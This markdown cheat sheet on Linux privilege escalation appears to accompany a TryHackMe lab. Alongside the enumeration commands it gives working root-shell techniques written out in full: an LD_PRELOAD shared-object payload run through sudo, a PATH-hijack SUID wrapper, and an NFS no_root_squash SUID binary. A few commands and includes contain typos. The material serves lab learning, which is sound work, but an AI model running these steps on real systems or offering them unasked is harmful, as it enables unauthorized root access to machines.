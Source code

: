 # Linux Privilege Escalation

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

## Check for Kernel Exploits

```
uname -r
```
**************************************
## Check for SUID or SGID Bits Set
```
find / -type f -perm -04000 -ls 2>/dev/null
```
SUID Only:
```
find / -perm -u=s -type f 2>/dev/null
```
**************************************
## Check Capabilities
```
getcap -r / 2>/dev/null
```
**************************************
## Check Cron Jobs
```
cat /etc/crontab
```
**************************************
## Leverage LD_PRELOAD

Check for LD_PRELOAD (with env_keep option)
```
sudo -l
```

Write a simple C code compiled as a share object (.so extension) file

* The C code will simply spawn a root shell and can be written as follows:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
Save this code as shell.c and compile it using gcc into a shared object file using the following parameters
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Run the program by specifying the LD_PRELOAD option, as follows:
```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```
**************************************
## PATH

```
echo $PATH
```
* What folders are located under $PATH?
* Does your current user have write privileges for any of these folders?
* Can you modify $PATH?
* Is there a script/application you can start that will be affected by this vulnerability?

Example Script: 
```
#include<unlistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("[BINARY]");
}
```
```
gcc path_exp.c -o path -w
```
```
chmod u+s path
```

Search for writable directories:
```
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```
To make a writable directory under $PATH:
```
export PATH=/tmp:$PATH
```
```
cd /tmp
```
```
echo "/bin/bash/" > [BINARY]
```
```
chmod 777 [BINARY]
```
```
./path
```
**************************************
## Network File Sharing (NFS)

If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.
```
cat /etc/exports
```

Enumerate mountable shares:
```
show mount -e [TARGET-IP]
```

Mount one of the “no_root_squash” shares to attack machine and start building executable:
```
mkdir /tmp/[YOUR-DIRECTORY]
```
```
mount -o rw [TARGET-IP]:[SHARE-DIRECTORY] /tmp/[YOUR-DIRECTORY]
```

Set SUID bits with a simple executable that will run /bin/bash on the target system: (nfs.c)
```
int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

Compile the code:
```
gcc nfs.c -o nfs -w
```
```
chmod +s nfs
```
```
./nfs
```

**************************************
## Reference
* https://tryhackme.com/room/linprivesc
